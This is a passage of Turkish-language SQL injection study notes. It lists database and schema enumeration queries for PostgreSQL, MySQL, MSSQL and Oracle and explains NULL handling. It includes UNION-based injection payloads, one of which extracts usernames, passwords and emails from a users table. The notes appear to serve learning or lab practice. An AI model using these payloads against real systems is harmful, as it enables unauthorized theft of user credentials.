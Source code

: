 Bu yüzden `WHERE table_schema='public'` diyerek **kullanıcıya açık default tabloları** hedef alıyoruz. Database'de tabloları öğrenmek için 

```PostgreSql
-- Tüm veritabanı isimleri
SELECT datname FROM pg_database--

-- Mevcut veritabanındaki tüm şemalar
SELECT schema_name FROM information_schema.schemata;
```


#### POSTGRESQL NULL propagasyonu :

eğer birleştirmeye çalıştığın herhangi bir parça `NULL` ise, bütün sonuç `NULL` olur.

```sql
'a' || NULL || 'b'  →  NULL` 
```

Böyle durumlarda sorgunun devam etmesi ve çalışması için 
```sql
COALESCE(email, '') -- COALAESCE() eğer email değeri yok ise NULL yerine boş bir değer döner
-- Tam Örnek Sorgu 
UNION SELECT NULL, username || '~' || password || '~' || COALESCE(email, '') FROM users--
```


**MySQL :**

```MySql
-- Tüm veritabanı isimleri
SHOW DATABASES;
-- Mevcut veritabanındaki tüm şemalar
SELECT SCHEMA_NAME FROM information_schema.SCHEMATA;
```


**Microsoft SQL Server (MSSQL)** :

```sql
-- Sunucudaki tüm veritabanları
SELECT name FROM sys.databases;
-- Geçerli veritabanındaki tüm şemalar
SELECT name AS schema_name FROM sys.schemas;
```

**Oracle :**
 Temel Sorgular
```SQL
-- Bağlı olunan Oracle veritabanının adı
SELECT name FROM v$database;
--Oracle’da “schema” ile “user” kavramı neredeyse aynıdır. Yani her kullanıcı kendi şemasına (schema) sahiptir. Bu yüzden:
SELECT username FROM all_users;
```

Oracle da her bir `SELECT` sorgusu `FROM` kelimesi ile belirli bir tabloyla kullanılmak zorundadır. Oracle bu amaçta kullanılması için `dual` tablosunu oluşturmuş. Örnek : 
```sql
UNION SELECT NULL FROM DUAL--
```
